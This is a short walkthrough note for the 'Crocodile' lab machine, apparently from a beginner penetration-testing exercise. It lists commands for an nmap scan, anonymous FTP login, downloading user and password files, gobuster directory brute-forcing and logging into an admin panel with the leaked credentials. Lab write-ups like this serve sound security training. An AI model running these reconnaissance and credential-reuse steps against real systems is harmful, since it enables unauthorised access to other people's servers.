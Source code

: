 # Notes for Crocodile Machine

## Commands Used

### Terminal Workflow

# Nmap scan to identify open ports and services
```
nmap -sC -sV <IP>
```

# Connect to the FTP server
```
ftp <IP>
```
# Login as anonymous
# When prompted for credentials:
# Username: anonymous
# Password: <leave blank>


# List files in the FTP server
```
dir
```

# Download files from the FTP server
```
get allowed.userlist
get passwords.txt
```

# Exit FTP
```
exit
```
# View the downloaded files
```
cat allowed.userlist
cat passwords.txt
```

# Perform directory brute-forcing with Gobuster
```
gobuster dir --url http://<IP>/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html
```

# Navigate to the discovered login page in a browser
# URL: http://<IP>/login.php

# Use credentials from the FTP files to log in to the admin panel
# Example:
# Username: admin
# Password: <password from passwords.txt>
